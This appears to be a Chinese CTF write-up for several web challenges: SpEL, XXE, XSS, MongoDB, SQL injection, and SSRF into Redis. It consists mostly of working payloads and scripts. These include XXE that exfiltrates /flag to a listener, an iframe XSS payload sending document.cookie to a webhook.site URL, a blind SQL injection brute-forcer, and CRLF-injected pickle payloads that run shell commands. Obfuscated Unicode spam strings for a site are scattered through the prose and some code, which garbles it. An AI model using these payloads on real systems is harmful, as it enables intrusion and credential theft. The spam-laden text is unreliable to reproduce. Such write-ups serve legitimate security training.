


expr
SPEL注入，但经过测试可以发现不允许执行命令，也不能出网
因此通过延时判断文件内容侧信道，𝘴³𝐯𝘦𝐧․ѕi𝒕e逐位读出flag文件，如果内容正确则延时
("a".class.forName("jav"+"a.nio.file.Files").readAllLines("a".class.forName("ja"+
"va.nio.file.Paths").get("/flag"))).toString().substring({},{}).equals("[") and
T(Thread).sleep(1000000000)fileit

根据源代码中的注释语句判𝘴𝟯𝒗ｅ𝐧∙𝐬𝘪ｔe断是 xxe 注入
在 file_server 上放置 xxe.dtd：
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://<listen_server_ip>:<listen_server_port>/%file;'>">并向服务器发送 s3𝒗ℯn∙𝐬ⅈ𝘵℮Payload：
<!DOCTYPE note[ <!ENTITY % remote SYSTEM "http://<file_server_ip>:<file_server_port>/xxe.dtd"> %remote;%int;%send; ]>即可在 listen_server 上获得 flag
Gateway
在附件的 baseinfoSet.json 中找到加密后的密码
"baseinfoSet_TELECOMPASSWORD": "106&112&101&107&127&101&104&49&57&56&53&56&54&56&49&51&51&105&56&103&106&49&56&50&56&103&102&56&52&101&104&102&105&53&101&53&102&129&",
"baseinfoSet_USERPASSWORD": "106&112&101&107&127&101&104&49&57&56&53&56&54&56&49&51&51&105&56&103&106&49&56&50&56&103&102&56&52&101&104&102&105&53&101&53&102&129&",搜索 baseinfoSet_TELECOMPASSWORD 加密算法的解密脚本：
orig='106&112&101&107&127&101&104&49&57&56&53&56&54&56&49&51&51&105&56&103&106&49
&56&50&56&103&102&56&52&101&104&102&105&53&101&53&102&129&'
l=list(map(int,orig.split('&')[:-1]))
result=[]
for i in l:
if i > 57:
i-=4
result.append(chr(i))
print(''.join(result))运行后即可获得 flag
JustXSS
预测 nonce 𝘀𝟯𝒗e𝐧·𝘀𝐢ｔ𝘦来进行 XSS
V8的 Math.random() 方法不是密码学安全的，𝘀𝟯𝐯𝐞ｎ․𝐬𝐢t𝘦可以通过历史记录来预测伪随机数生成器内部状
态，从而获取之后得到的值。
能拿到未来的nonce后就可以很方便的注入，但由于 Vue 的 v-html 是设置 innerHTML 来更新
DOM ，而事件侦听由被 CSP 给 ban 了，直接注入 <script> 也是不会执行的
这里就需要第二个 s3𝒗en•𝐬ⅈteTrick，使用 iframe 绕过这个限制
POC:
<iframe srcdoc="<script
nonce='$NONCE'>window.open('https://webhook.site/88da27db-7c1e-4fee-8410-
9cef8bc08d2c?'+document.cookie)</script>"></iframe>Messy Mongo
利用后端 MongoDB $表达式解析 绕过前端 s⑶v𝘦ｎ․𝘀𝐢ｔ℮typescript 安全校验获得 flag
采用 Update document 和 Aggregation pipeline 的区别：
当传入的 Update 参数为数组时，𝐬⑶vℯｎ·𝐬𝘪𝒕ｅMongoDB 将会把 Update 作为一个 Aggregation pipeline 进行解析，从而可以使用其Expr进行绕过。
POC 1：
{
username: {
$substr: ['admin', 0, 5]
}
}POC 2：

{
"username": { "$toString": "admin" }
}修改 ctfer 的 username 为 admin ѕ𝟯𝘷ℯn·ꜱi𝘵℮，从而获取 admin 的 Todo lists ，获得 flag
phpsql
简单SQL注入
可以 username=admin&password='||1=1;#
当然，也可以:
{"password":"1", "username":
f"1'||if(ascii(substr((sselectelect/**/group_concat(passwoorrd)/**/from/**/user),
{i},1))>{mid},sleep(2),0)#"}import requests
url = "https://prob06-frcwo2ol.contest.pku.edu.cn/login.php"
flag = ""
i = 0
while True:
i = i+1
left = 32
right = 127
while left < right:
mid = (left+right) // 2
payload = {"password":"1", "username":f"1'||if(ascii(substr((sselectelect/**/group_concat(passwoorrd)/**/from/**/user),{i},1))>{mid},sleep(2),0)#"}
try:
res = requests.post(url = url, data=payload, timeout=1)
#print(res.text)
right = mid
except Exception as e:
left = mid+1
if left != 32:
flag+=chr(left)
print(flag)
else:
breakpyssrf
访问 source 路径获得源码，发现存在 ssrf 𝒔3𝘷𝐞ｎ․𝘴ⅈte的点且存在没有密码的 redis
结合题目描述得知版本为 python3.7，使用的 urllib 存在 http 头注入的问题，用这个漏洞（CVE-
2019-9947）对后台的 𝘀𝟯v𝐞𝒏․𝒔ⅈｔ𝐞redis 进行攻击
构造key值
md5('http://1')=22d474190b1889d3373fa4f9334e979c用脚本构造piѕ𝟯𝘷𝐞𝐧．𝒔𝘪t℮ckle的反序列数据
import base64
a=b'''cos system
(S'command here'
tR.'''
print(base64.b64encode(a))因为采用的是 flask 框架，𝐬⑶𝘷ℯ𝘯•𝘴𝐢𝘵𝐞最简单获得回显的方式就是写文件到静态目录
import base64
a=b'''cos
system
(S'mkdir static'
tR.'''
print(base64.b64encode(a))再将 flag ѕ3𝘷𝐞𝘯•𝘴ⅈ𝐭𝐞的内容重定向到 static/1.txt 中
import base64
a=b'''cos
system
(S'cat /flag>static/1.txt'
tR.'''
print(base64.b64encode(a))综上，先访问以下 url
/?url=127.0.0.1:6379?
%0d%0a%0d%0aSET%2022d474190b1889d3373fa4f9334e979c%20%22Y29zCnN5c3RlbQooUydta2RpciBzdGF0aWMnCnRSLg%3d%3d%22%0d%0apaddins触发反序列化创建 𝒔³v𝐞ｎ․s𝐢𝘵estatic 目录
/?url=1再访问以下 url，将 s𝟯ⅴ𝐞ｎ．𝒔𝘪t𝘦flag 输出到 static/1.txt
/?url=127.0.0.1:6379?
%0d%0a%0d%0aSET%2022d474190b1889d3373fa4f9334e979c%20%22Y29zCnN5c3RlbQooUydjYXQgL2ZsYWc%2bc3RhdGljLzEudHh0Jwp0Ui4%3d%22%0d%0apaddins触发
/?url=1再访问 /static/1.txt ,获得 flag